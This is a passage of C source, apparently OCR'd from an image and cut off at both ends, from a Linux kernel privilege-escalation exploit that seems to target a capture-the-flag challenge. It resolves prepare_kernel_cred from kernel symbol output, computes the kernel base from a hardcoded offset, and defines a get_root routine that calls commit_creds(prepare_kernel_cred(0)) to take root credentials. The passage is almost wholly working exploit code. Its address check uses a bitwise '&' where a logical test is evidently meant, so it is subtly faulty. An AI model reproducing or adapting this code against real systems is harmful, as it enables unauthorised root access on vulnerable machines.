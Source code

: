 ```C
		}



		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)

		{

			/* puts(buf); */

			char hex[20] = {0};

			strncpy(hex, buf, 16);

			sscanf(hex, "%llx", &prepare_kernel_cred);

			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);

			vmlinux_base = prepare_kernel_cred - 0x9cce0;

			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */

		}

	}



	if(!(prepare_kernel_cred & commit_creds))

	{

		puts("[*]Error!");

		exit(0);

	}



}





void get_root()

{

char * (* pkc) (int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;

(* cc) ((* pkc) (0));
	/* puts("[*] root now."); */

}



void set_off(int fd, long long idx)

{
```